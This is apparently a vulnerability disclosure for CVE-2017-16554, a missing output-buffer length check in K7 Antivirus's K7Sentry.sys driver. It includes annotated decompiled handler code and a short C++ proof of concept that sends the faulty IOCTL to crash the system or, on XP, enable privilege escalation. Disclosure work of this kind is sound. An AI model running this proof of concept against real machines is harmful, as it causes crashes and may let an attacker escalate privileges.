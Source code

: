 # CVE-2017-16554

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*


# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x950025b0 does not check the length of the output buffer before using it and writes 5 bytes to the output buffer.

 The code snippet below is the decompiled code which has been named and commented up to illustrate the problem.


```C++
case 0x950025AC:
    // CVE-2017-16552
    value_0_or_1 = PossiblySomethingLoggy();
    *v2 = 4;
    *pOutputBuffer = (PVOID)value_0_or_1;
    v9 = 0;
    goto LABEL_117;
case 0x950025B0:
    // Note: pOutputBuffer is the same as Irp->AssociatedIrp.SystemBuffer
    // VULN: No check has been performed to ensure that there is enough space to write 5 bytes 
    // to the buffer.
    *pOutputBuffer = (PVOID)13;
    *((_BYTE *)pOutputBuffer + 4) = 0;
    *v2 = 13;
    v9 = 0;
    goto LABEL_117;
case 0x950025B4:
case 0x950025B8:
    PsGetCurrentProcessId();
    // Note: This is how it should be, a a length check before assigning to the buffer.
    if ( stIoControlBuffer.dwOutputBufferLength < 4u )
        goto LABEL_73;
    *pOutputBuffer = 0;
    *v2 = 4;
    v9 = 0;
    goto LABEL_117;
```

# PoC Code
This PoC will open a connection to the driver and call it with the approiate IOCTL code to geneate the crash.

```c++
HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDevice != INVALID_HANDLE_VALUE)
{
    DeviceIoControl(hDevice, 0x950025b0, (PVOID)arrInBuffer, 0, (PVOID)0xaaaaaaaa, 0, &dwBytesReturned, NULL);
}
```

On Windows XP, this will attempt to write the value of **0D 00 00 00 00** to *0xaaaaaaaa*. On this platform, this could be easily used for a privilege escallation.

On Windows 7 and above, this will attempt to write the value at **0D 00 00 00 00* to 0x00000000 and will cause a BSOD. This would simply be an availability issues.

